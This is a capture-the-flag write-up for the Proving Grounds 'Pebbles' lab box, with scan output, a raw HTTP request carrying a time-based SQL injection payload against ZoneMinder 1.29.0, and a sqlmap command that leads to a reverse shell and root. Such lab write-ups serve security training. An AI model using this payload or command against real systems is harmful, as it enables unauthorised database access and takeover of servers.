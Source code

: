 ```yaml
---
title: "Proving grounds Practice: Pebbles"
layout: post
date: 2023-08-18 06:00
categories: writeup
---
```


Proving grounds Practice - Pebbles CTF writeup.

## Nmap

```sh
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aacf5a9347180e7f3d6da5aff86aa51e (RSA)
|   256 c7636c8ab5a76f05bfd0e390b5b89658 (ECDSA)
|_  256 93b26a1163861b5ef5895852897ff342 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Pebbles
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomcat
|_http-favicon: Apache Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Pebbles/dir.png)

**ZoneMinder v1.29.0**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/zm.png)

Zoneminder v1.29.0 is vulnerable to SQL Injection vulnerability.

**Searchsploit**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/searchsploit.png)

## Construct and Exploit SQL Injection vulnerability

### Request

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.210.52
Content-Length: 112
Accept: application/json
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.210.52
Referer: http://192.168.210.52/zm/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=e6s5540cs098ev3kra5sksjme6
Connection: close

view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

### Response

![img](/assets/images/CTF/Proving_Grounds/Pebbles/response.png)

The vulnerability says the `limit` parameter is vulnerable and automate the exploit using sqlmap.

```sh
sqlmap -u http://192.168.210.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=1" -p limit --batch --dbs --risk 3 --level 4
```

![img](/assets/images/CTF/Proving_Grounds/Pebbles/db.png)

**Obtain reverse shell via sqlmap**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell.png)

**Transfer nc and obtain reverse shell**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell2.png)

**Root Obtained**

Use PORT `3305` to get reverse connection sucessfully. Other ports are not allowed in the system.

![img](/assets/images/CTF/Proving_Grounds/Pebbles/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
